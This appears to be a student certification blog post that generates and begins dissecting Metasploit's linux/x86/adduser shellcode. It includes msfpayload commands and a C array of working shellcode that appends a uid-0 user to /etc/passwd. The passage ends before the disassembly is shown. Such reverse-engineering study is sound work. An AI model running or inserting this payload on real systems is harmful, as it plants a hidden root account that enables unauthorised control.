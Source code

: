 # Assignment #5: Metasploit adduser

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Take up at least 3 shellcode samples created using Msfpayload for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

## Solution

In this assignment we will take up the `linux/x86/adduser` shellcode from Metasploit, as generated by msfpayload. 

For this shellcode to work, we must provide it with at least a username and a password. For the purposes of this assignment, we will also add the Shell to specify which environment we want to be configured for the newly created user.


## Analysis

Let us begin by generating and running the shellcode with Libemu to determine the execution flow.

```
msfpayload linux/x86/adduser USER=slae PASS=isAwesome SHELL=/bin/bash R > a5-msf_adduser
sctest -Svvvs 100000000000000 -G a5-msf_adduser.dot < a5-msf_adduser 
dot -Tpng a5-msf_adduser.dot > a5-msf_adduser.png 
```

Unfourtunately, Libemu fails to produce any useful output. The dot and png files are also empty. 

In order for us to be able to trace the execution flow of the shellcode, we need to be able to execute it in the first place. So lets go ahead and generate the shellcode in C format and append an execution skeleton to it.

```bash
msfpayload linux/x86/adduser USER=slae PASS=isAwesome SHELL=/bin/bash C > a5-msf_adduser.c
```

#### a5-msf_adduser.c

```c
#include<stdio.h>
#include<string.h>
/*
 * linux/x86/adduser - 93 bytes
 * http://www.metasploit.com
 * VERBOSE=false, PrependFork=false, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, USER=slae, PASS=isAwesome, SHELL=/bin/bash
 */
unsigned char code[] = \
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x24\x00\x00\x00\x73\x6c"
"\x61\x65\x3a\x41\x7a\x6a\x38\x5a\x6a\x47\x72\x6e\x73\x5a\x69"
"\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x62"
"\x61\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01"
"\x58\xcd\x80";
```